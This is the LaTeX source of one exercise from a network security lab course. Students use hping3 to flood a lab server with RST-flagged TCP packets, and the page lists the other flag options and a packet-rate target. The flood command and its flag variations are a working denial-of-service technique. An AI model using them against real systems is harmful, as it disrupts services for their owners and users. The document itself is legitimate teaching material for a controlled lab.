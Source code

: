 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.

\begin{alltt}
-L  --setack     set TCP ack
-F  --fin        set FIN flag
-S  --syn        set SYN flag
-R  --rst        set RST flag
-P  --push       set PUSH flag
-A  --ack        set ACK flag
-U  --urg        set URG flag
-X  --xmas       set X unused flag (0x40)
-Y  --ymas       set Y unused flag (0x80)
\end{alltt}





{\bf Solution:}\\
When your team has sent +1 million packets per second into the network, from one or two laptops - you are done.

{\bf Discussion:}\\
If an attacker varies the packets they can be harder to filter out, and the attacks succeed.

\chapter{\faInfoCircle\ UDP flooding NTP, etc. 15min}
\end{document}
